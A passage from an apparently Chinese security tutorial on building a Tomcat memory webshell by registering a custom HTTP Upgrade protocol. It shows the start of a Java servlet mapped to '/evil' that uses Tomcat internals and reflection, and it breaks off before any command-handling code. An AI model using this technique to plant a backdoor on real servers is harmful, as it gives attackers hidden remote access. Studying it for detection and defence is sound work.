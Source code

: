 [![](assets/1708482741-f1921845cb79d1d17b0b8fc83e88df31.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211002806-5eb8d074-c831-1.jpeg)

#### 2.14.1.2 利用 Tomcat 搭建

当然也是可以利用`Tomcat`来搭建的，只需要`TestUpgrade.java`即可，因为里面含有定义的`servlet`逻辑：

```bash
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Request;
import org.apache.coyote.Adapter;
import org.apache.coyote.Processor;
import org.apache.coyote.UpgradeProtocol;
import org.apache.coyote.Response;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@WebServlet("/evil")
public class TestUpgrade extends HttpServlet {

    static class MyUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
```